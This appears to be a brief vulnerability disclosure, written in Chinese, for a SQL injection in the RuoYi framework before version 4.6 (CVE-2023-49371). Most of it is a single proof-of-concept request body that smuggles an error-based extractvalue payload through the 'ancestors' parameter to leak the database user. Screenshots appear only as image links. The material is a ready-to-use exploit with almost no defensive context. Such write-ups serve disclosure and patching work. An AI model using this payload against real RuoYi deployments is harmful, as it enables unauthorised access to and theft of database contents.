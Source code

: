## RuoYi4.6.0 SQL注入漏洞CVE-2023-49371

若依在4.6版本之前存在SQL注入漏洞，攻击者通过该漏洞可以进行SQL注入利用，从而获取数据库中的敏感信息

## poc
```
DeptName=1&deptid =100&ParentId=12&Status= 0&ordernum =1&ancestors=0)or(extractvalue(1,concat((select user())))); #
```
![image](../../images/7c110048-af68-42e5-ba3b-ffb69bb28f17.png)

![image](../../images/653098c3-5c6d-45a9-b50a-850b48475662.png)
